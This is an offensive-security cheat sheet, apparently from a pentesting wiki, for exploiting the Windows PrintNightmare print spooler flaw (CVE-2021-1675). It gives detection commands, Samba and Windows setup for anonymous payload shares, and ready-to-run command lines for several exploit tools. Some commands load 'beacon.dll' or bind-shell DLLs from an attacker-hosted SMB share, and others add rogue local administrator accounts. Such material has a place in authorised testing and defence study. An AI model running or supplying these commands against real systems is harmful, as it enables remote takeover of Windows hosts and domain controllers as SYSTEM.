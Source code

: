 # PrintNightmare

[CVE-2021-1675](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675) is a critical remote code execution and local privilege escalation vulnerability dubbed "PrintNightmare."

The print spooler service is vulnerable to remote code execution that leverages a compromised user account, either domain-joined or local account, to take full control of a system as the NT SYSTEM user. Proof-of-concept (PoC) code has been made publicly available for this new vulnerability leaving every Windows system at extreme risk. An adversary exploiting this vulnerability can leverage a domain-joined account, regardless of permissions, to take full control as NT SYSTEM on any domain-joined Windows system. This includes servers and Domain Controllers. An adversary exploiting this vulnerability can also leverage a local account to take full control as NT SYSTEM on any Windows system that the local account is valid.

## <mark style="color:red;">Requirements</mark>

* **Spooler Service** enabled (Mandatory)
* Server with patches < June 21
* DC with `Pre Windows 2000 Compatibility` group
* Server with registry key `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall` = (DWORD) 1
* Server with registry key `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA` = (DWORD) 0

## <mark style="color:red;">Target Detection</mark>

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

```
# impacket
python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol



# it was all a dream
git clone https://github.com/byt3bl33d3r/ItWasAllADream
cd ItWasAllADream && poetry install && poetry shell
itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
```

## <mark style="color:red;">Tools</mark>

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/outflanknl/PrintNightmare" %}

## <mark style="color:red;">Exploitation</mark>

#### here we use the [python exploit](https://github.com/cube0x0/CVE-2021-1675) because it can do the job remotely.

```
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

```
CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share
```

### <mark style="color:orange;">SMB configuration</mark>

#### Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf` to allow anonymous access

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

#### <mark style="color:green;">From windows it's also possible</mark>

```
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

#### example:

```
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

### <mark style="color:orange;">other methods</mark>

[SharpNightmare](https://github.com/cube0x0/CVE-2021-1675)

```
# require a modified Impacket: https://github.com/cube0x0/impacket
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
## LPE
SharpPrintNightmare.exe C:\addCube.dll
## RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
## RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
```

[Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)

```
## LPE only (PS1 + DLL)
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```

[Mimikatz v2.2.0-20210709+](https://github.com/gentilkiwi/mimikatz/releases)

```
## LPE
misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
## RCE
misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50
```

[PrintNightmare - @outflanknl](https://github.com/outflanknl/PrintNightmare)

```
PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
```
